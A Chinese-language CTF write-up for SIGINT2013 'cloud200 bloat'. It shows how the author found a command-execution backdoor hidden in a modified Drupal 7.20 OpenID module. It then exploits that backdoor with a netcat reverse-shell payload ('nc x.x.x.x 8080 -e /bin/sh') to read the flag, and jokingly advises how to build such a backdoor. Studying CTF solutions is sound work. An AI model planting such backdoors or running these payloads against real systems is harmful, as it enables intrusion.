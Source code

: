 ```yaml
---
layout: post
title: "SIGINT2013 cloud200 bloat"
description: "SIGINT2013 cloud200 bloat hunt for backdoor"
category: "writeup"
tags: ["SIGINT2013", "web", "writeup"]
---
```

{% include JB/setup %}
#SIGINT2013 cloud200 bloat

Description

    My friend set up this site for me. I don't trust him.
    He installed a backdoor for sure. Can you find it?
    He just wrote me, what this system is using.
    Somehow it looks diff-erent o_O:
	http://a0.ctf.sigint.ccc.de/

[cdd-7.20.tar_0.gz](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/cdd-7.20.tar_0.gz)

[source_code.tar.bz2](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/source_code.tar.bz2)

这道题比赛的时候只有一个队伍做出来。虽然只有200分，但过程比较复杂。
我本来预期花一两个小时就能解决这个问题，结果却耗费了四个小时。

首先也是最关键的问题就是如何找到后门。
这个网站使用的是开源系统drupal 7.20，还附带了一些插件。但问题并不是直接diff那么简单。
官方的源码附有详细的注释，但修改版中将所有注释全部删掉了，还把代码风格从K&R风格改成了一种很混乱的样子，甚至将所有的变量名替换成了奇奇怪怪的东西。

手工查找人眼识别几乎是不可行的。必须想其它办法。

比赛的时候卡在其他题上面了，没有时间仔细看这道题。事后才想起来可以写一个文本处理器，把php文件全部“格式化”一遍：去掉注释+统一格式+统一变量命名。

[PHP_filter.cpp](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/filter.cpp)

处理注释是最麻烦的一步，要判断引号和各种注释符，最终版本的代码也还有瑕疵。
因为只需要比对出文件的不同之处，所以不需要维护代码风格和变量名。为了统一，我把所有可能换行的`{};,:()`全都强行换行，又将所有变量名指定成了$000。

用这个非常挫的文本处理器半自动操作，效率已经比人眼识别提升很多，而且出错率降低很多。
但是将所有`.php`文件对比之后并没有什么收获。
再去查看源码中的文件，发现`.php`的文件其实并不多。很多插件都是以`.inc\.module`这样的后缀结尾的。

再扫描一遍`.inc`后缀的文件，果然发现有一个文件`./bloat/modules/openid/openid.inc`略有不同。

    10 define('OPENID_DH_DEFAULT_GEN', '86');
    
而原版中的openid是

```php
22 /**
23  * Diffie-Hellman generator; used for Diffie-Hellman key exchange computations.
24  */
25 define('OPENID_DH_DEFAULT_GEN', '2');
```
    
这是跟用户认证有关的一个常量。修改这种值也许会造成认证系统的一些缺陷。
继续看代码，我有了更大的收获。

在`./bloat/modules/openid/openid.module`中代码逻辑与原版有明显的不同。

```
197 function openid_login_validate($quench, &$tickers)
198    {
199 $return_to = $tickers['values']['openid.return_to'];
...
204   openid_begin($tickers['values']['openid_identifier'], $return_to, $tickers['values']);
... 
207      function openid_begin($imaginably, $overlay = '', $termination = array())
...
212       if(strpos($imaginably, '@'))
213   {
214    list($user, $host) = explode('@', $imaginably, 2);                                                                                                                                         
215 }
216 else
217     {
218      $user = false;
219      $host = false;
220      }
```
    
`214    list($user, $host) = explode('@', $imaginably, 2);`中`$imaginably`正是用户提交的认证用户名。
再来看看这些变量做了什么。

    248 $user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
    249     $service['uri'] = drupal_map_assoc(array($host), $user_enc);
    259   openid_redirect($service['uri'], $ramparts);
    
这里用到了修改过的常量`OPENID_DH_DEFAULT_GEN`。
drupal_map_assoc()返回的是数组，所以在redirect过程中会被强转成字符串"Array"，最后在跳转的时候会出错。
而这个[drupal_map_assoc()](https://api.drupal.org/api/drupal/includes%21common.inc/function/drupal_map_assoc/7)则暗藏玄机。
根据官方文档，drupal_map_assoc()会把第一个参数$array中的每个参数依次传入第二个参数$callable执行并返回一个数组。
这里藏着一个命令执行后门啊。。。。
只要`is_callable($user_enc)`就能直接执行`$user_enc($host)`。
而`$user_enc`是从`$user * OPENID_DH_DEFAULT_GEN`解出来的。
因为`OPENID_DH_DEFAULT_GEN`的限制，所以这个`$user_enc`必须是按照base64解成整形之后能整除86（中间还有一些过程）。

现在要做的就是找一个合适的函数，恰好能满足这个条件了。

```
slipper@NULL:~/CTF/SigintCTF2013/cloud/bloat/bloat/modules/openid$ php -a
Interactive shell

php > include './openid.inc';
php > var_dump(is_callable('system'));
bool(true)
php > var_dump(is_callable('systeM'));
bool(true)
php > echo _openid_dh_base64_to_long('system')/OPENID_DH_DEFAULT_GEN ."\n";
34952922.72093
php > echo _openid_dh_base64_to_long('System')/OPENID_DH_DEFAULT_GEN ."\n";
14664196.395349
php > echo _openid_dh_base64_to_long('SYstem')/OPENID_DH_DEFAULT_GEN ."\n";
14347185.046512
php > echo _openid_dh_base64_to_long('eval')/OPENID_DH_DEFAULT_GEN ."\n";
93703.872093023
php > echo _openid_dh_base64_to_long('exec')/OPENID_DH_DEFAULT_GEN ."\n";
93802
```

因为这里的is_callable是不区分大小写的，本来我还以为后门作者刻意选择了大小写混用的函数名，本来差点要写程序暴搜的。还好偶然发现exec正好符合要求。^_^

**如果以后要用这种方法做后门，记得一个有大因子的大小写混用的函数名哦。**

接下来就是命令执行了。
可是用`93802@echo a > a`结果并没有生成文件a。似乎对网站的目录木有写权限。
如果要获取flag，必须要有传递信息的途径。
唯一能想到的方法就只有反连了。
幸运的是服务起的nc有-e选项，正好可以交互，不然还得一次一次地执行命令。

用`93802@nc x.x.x.x 8080 -e /bin/sh`反弹，本地用`nc -l 8080`监听。

```
pwd
/var/www
ls -la ./
total 7904
drwxr-xr-x  9 root root    4096 Jul  5 01:23 .
drwxr-xr-x 14 root root    4096 Jul  5 01:53 ..
-rw-r--r--  1 root root   75028 Mar  7 17:26 CHANGELOG.txt
-rw-r--r--  1 root root    1481 Mar  7 17:26 COPYRIGHT.txt
...
-rw-r--r--  1 root root      34 Jul  5 01:01 ___F_L_A_G___
...
cat ___F_L_A_G___
not here, see /flag on filesystem
cat /flag
SIGINT_d4b0844c
```

看来果然是木有写权限～～
